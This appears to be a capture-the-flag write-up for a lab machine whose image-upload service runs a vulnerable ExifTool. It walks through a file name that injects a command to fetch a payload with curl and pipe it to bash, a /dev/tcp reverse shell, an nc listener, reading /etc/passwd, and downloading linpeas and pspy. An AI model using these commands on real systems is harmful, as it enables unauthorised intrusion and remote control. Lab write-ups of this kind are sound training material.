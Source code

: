 #### Exploration
Explored the site and visited the discovered web paths.  `/upload.php` hints at image upload functionality but seems broken even when we have not uploaded any image yet. However, the `service.html` had the upload button.  Select any png or jpg image of choice and upload. The site analyses the image and returns an ExifTool report of the image's metadata. 

![Image Uploaded](/images/investigation/investigation01.png "Image Uploaded")

![Image Analyses Report](/images/investigation/investigation02.png "Image Analyses Report")

A Google search for 'exiftool 12.37 exploit' returned [this](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) result. The idea here is to make an image with the file name ending in `|` to get a shell payload we host on the attacking machine.

#### Exploitation
```shell
# create a image with a file ending in | that will request our payload
cp dog.jpeg 'curl 10.10.14.126:8008 | bash |'

# create an index.html with the reverse shell payload
echo 'bash -i >& /dev/tcp/10.10.14.126/9009 0>&1' > index.html

# start a python server to host the index.html
python3 -m http.server 8008 -b 10.10.14.126

# now start an nc listener and upload the file
nc -lvnp 9009

# get a proper shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;

# explore the system
cat /etc/passwd | grep -i 'sh$'
#--snip--#
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash

cd /home/smorton        # permission denied
ss -tulpn               # nothing interesting
#--snip--#
Netid  State   Recv-Q   Send-Q     Local Address:Port   Peer Address:Port     Process      
udp    UNCONN    0         0       127.0.0.53%lo:53     0.0.0.0:*                     
udp    UNCONN    0         0       0.0.0.0:68           0.0.0.0:*                     
tcp    LISTEN    0        511      0.0.0.0:80           0.0.0.0:*                     
tcp    LISTEN    0        4096     127.0.0.53%lo:53     0.0.0.0:*                     
tcp    LISTEN    0        128      0.0.0.0:22           0.0.0.0:*                     
tcp    LISTEN    0        128      [::]:22              [::]:*      

# start a server on that attack's machine
python3 -m http.server 8008 -b 10.10.14.126 -d ../tools/

# upload linpeas and pspy then run them
wget http://10.10.14.126:8008/{linpeas.sh,pspy}
chmod +x linpeas.sh pspy
./linpeas.sh | tee -a linout
<<SNIP
root  955  0.0  0.0   6816  3060 ?   Ss   04:25   0:00 /usr/sbin/cron -f
root  957  0.0  0.9 235904 35984 ?   Ss   04:25   0:01 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
/var/www/uploads/1682411430 && /opt/exiftool/exiftool * > /var/www/html/analysed_images/curl1010141268008bash.txt
```